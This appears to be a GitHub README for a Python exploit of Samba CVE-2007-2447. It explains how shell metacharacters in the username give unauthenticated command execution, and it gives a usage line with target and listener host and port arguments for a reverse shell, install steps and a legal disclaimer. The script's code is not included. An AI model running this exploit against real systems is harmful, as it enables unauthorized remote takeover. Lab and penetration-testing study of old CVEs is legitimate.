 # samba-usermap-script

**Name:** Samba "username map script" Command Execution <br/>
**Supported Architecture:** cmd<br/>
**Supported Platform:** Unix <br />
**Target Service / protocol:** microsoft-ds, netbios-ssn <br />
**Target Network Port(s):** 139, 445 <br />
**List of CVEs:** CVE-2007-2447 <br />
<br />
This script will exploit a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

<br/>

## Usage:
```shell
$ python samba_usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```
  * `RHOST` -- The target address
  * `RPORT` -- The target port (TCP : 445)
  * `LHOST` -- The listen address
  * `LPORT` -- The listen port

## Installation

    sudo apt install python python-pip
    pip install --user pysmb
    git clone https://github.com/pulkit-mital/samba-usermap-script.git

### Disclaimer:

All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
